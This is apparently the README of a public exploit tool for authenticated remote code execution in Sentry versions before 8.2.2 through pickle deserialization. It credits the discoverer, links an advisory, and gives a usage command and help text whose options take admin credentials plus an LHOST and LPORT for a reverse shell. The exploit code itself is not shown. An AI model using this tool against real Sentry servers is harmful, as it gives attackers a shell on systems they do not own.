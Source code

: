 # Sentry-Authenticated-Remote-Code-Execution
## Sentry &lt; 8.2.2 Pickle Deserialization to RCE

<h4> Discovered By : Clement Berthaux (SYNACKTIV) </h4>
<h4> Exploit Authored By : Mohin Paramasivam (Shad0wQu35t)
<h4> HTB Profile : https://app.hackthebox.eu/profile/16731 </h4>
<h4> Advisory Link : https://doc.lagout.org/Others/synacktiv_advisory_sentry_pickle.pdf </h4>
<h4> Exploit DB Link :  </h4>

<h4> Usage : python exploit.py --url `http://puturhostnamehere/auth/login/sentry/` -U `username` -P `password` -l `LHOST` -p `LPORT`</h4>
  

usage: exploit.py [-h] [-U U] [-P P] [-l L] [-p P] [--url URL]

Sentry < 8.2.2 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        Sentry Admin Username / Email
  -P P        Sentry Admin Password
  -l L        Rev Shell LHOST
  -p P        Rev Shell LPORT
  --url URL   Sentry Login URL
              
              
![alt text](https://github.com/mohinparamasivam/Sentry-Authenticated-Remote-Code-Execution/blob/main/sentry_exploit.png?raw=true)              
              


# Dependencies

<h4>pip install requests</h4>
<h4>pip install bs4</h4>
<h4>pip install argparse</h4>

